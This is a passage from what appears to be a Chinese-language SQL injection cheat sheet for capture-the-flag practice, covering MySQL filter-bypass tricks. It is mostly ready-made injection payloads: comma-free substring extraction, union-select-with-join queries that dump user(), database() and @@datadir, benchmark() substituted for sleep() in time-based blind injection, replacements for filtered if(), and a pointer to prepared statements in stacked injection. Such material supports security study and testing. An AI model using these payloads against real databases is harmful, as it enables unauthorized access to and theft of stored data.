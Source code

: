 对于substr()和mid()这两个方法可以使用from for 的方式来解决
```
select substr(database() from 1 for 1)='c';
```
使用join关键字来绕过
```
union select 1,2,3,4;
union select * from ((select 1)A join (select 2)B join (select 3)C join (select 4)D);
union select * from ((select 1)A join (select 2)B join (select 3)C join (select group_concat(user(),' ',database(),' ',@@datadir))D);
```
使用like关键字 适用于substr()等提取子串的函数中的逗号
```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'
```
使用offset关键字
```
select * from cms_users limit 0,1;
# 等价于下面这条SQL语句
select * from cms_users limit 1 offset 0;
```
##  12.过滤函数绕过
```
sleep() -->benchmark()
select 12,23 and sleep(1);
参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式
select 12,23 and benchmark(10000000,1);

ascii()–>hex()、bin()
替代之后再使用对应的进制转string即可
group_concat()–>concat_ws()
select group_concat(“str1”,“str2”);
select concat_ws(“,”,“str1”,“str2”);

substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()
user() --> @@user、datadir–>@@datadir
ord()–>ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致。
```

过滤了if函数：
```
if函数的判断语句
select if(substr(database(),1,1)='c',1,0);
IFNULL函数
select ifnull(substr(database(),1,1)='c',0);
case when then函数
select case substr(database(),1,1)='c' when 1 then 1 else 0 end;
```

##  13.堆叠注入时利用 MySql 预处理
在遇到堆叠注入时，如果select、rename、alter和handler等语句都被过滤的话，我们可以用MySql预处理语句配合concat拼接来执行sql语句拿flag。
